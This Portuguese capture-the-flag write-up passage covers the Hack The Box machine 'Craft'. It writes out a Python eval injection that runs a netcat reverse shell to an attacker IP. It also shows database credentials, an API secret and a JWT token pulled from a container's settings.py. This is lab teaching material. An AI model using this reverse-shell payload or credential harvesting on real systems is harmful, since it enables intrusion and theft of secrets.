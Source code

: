 Show, demostrado, agora vamos retornar pra outro modo

### Através do "pentest monkey"

Pra quem não sabe, pentest monkey é um site bacana que reune bastante coisa sobre pentest, o que gosto de lá são os comandos, pra reverse shell, sqlinjection, esse tipo de coisa. É muito útil termos ele em nossa manga

> http://pentestmonkey.net/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_a3.png)

Agora devemos modificar no test.py então, onde está o 'abv' para noso shell

`"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 443 >/tmp/f')"`

Utilizei esse reverse shell por não conter nenhuma aspa dupla nem nada que pudesse ser bad char

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval2.png)

Executamos, e ganhamos uma shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval3.png)

Show! Só que estamos em um container...

Vamos enumerar essa máquina pra ver oq encontramos de útil nela, uma vez que é um container

Encontramos o arquivo `settings.py` que não estava no repositório

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval4.png)

E com ele credenciais para um banco de dados

```
# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Dentro desse settings.py tem mais alguma coisa também, uma senha a `CRAFT_API_SECRET = 'hz66OCkDtv8G6D'`. Mas oq é ela? Não sei se você se lembra lá em cima, quando encontramos aquele curl que ele faz com um token, então, o token é essa senha

`X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_token.png)

Ai está, conseguimos quebrar ela com o john, pra que isso seria interessante agora? Pra nada, apenas pra conhecimento. Vamos prosseguir...

### Enumeração do banco de dados
